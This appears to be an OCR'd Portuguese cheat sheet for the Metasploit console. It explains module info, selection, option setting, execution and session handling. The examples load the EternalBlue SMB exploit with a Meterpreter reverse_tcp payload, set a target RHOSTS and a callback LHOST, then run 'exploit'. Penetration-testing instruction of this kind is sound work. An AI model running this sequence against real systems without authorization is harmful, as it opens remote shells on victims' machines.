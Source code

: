 * `info` → mostra informações detalhadas sobre um módulo.

   ```
  msf6 > info nop/aarch64/simple 

       Name: Simple
     Module: nop/aarch64/simple
   Platform: All
       Arch: aarch64
       Rank: Normal

  Provided by:
    timwr

  Description:
    Simple NOP generator
  ```
  
**3. Seleção de módulos**
* `use <módulo>` → carrega um módulo.

  ```
  msf6 > use exploit/windows/smb/ms17_010_eternalblue
  [*] No payload configured, defaulting to windows/x64/meterpreter/reverse_tcp
  msf6 exploit(windows/smb/ms17_010_eternalblue) > 
  ```
* `back` → volta ao contexto anterior (sai do módulo).
* `show options` → lista opções configuráveis do módulo selecionado.
* `show payloads` → mostra payloads compatíveis com o exploit.
* `show targets` → lista os sistemas-alvo suportados.

**4. Configuração**
* `set <opção> <valor>` → define valores.

  ```
  set RHOSTS 192.168.1.100
  set PAYLOAD windows/meterpreter/reverse_tcp
  ```
* `setg <opção> <valor>` → define opções globais (valem para todos os módulos).

  ```
  setg LHOST 192.168.1.50
  ```
* `unset <opção>` → remove configuração.
  
**5. Execução**
* `exploit` ou `run` → executa o módulo selecionado.
  
  ```
  exploit
  ```
* `exploit -j` → roda em segundo plano como job.
* `exploit -z` → executa sem interagir com sessão aberta.

**6. Sessões**

* `sessions` → lista sessões ativas (ex.: meterpreter, shells).
* `sessions -i <id>` → interage com sessão específica.
  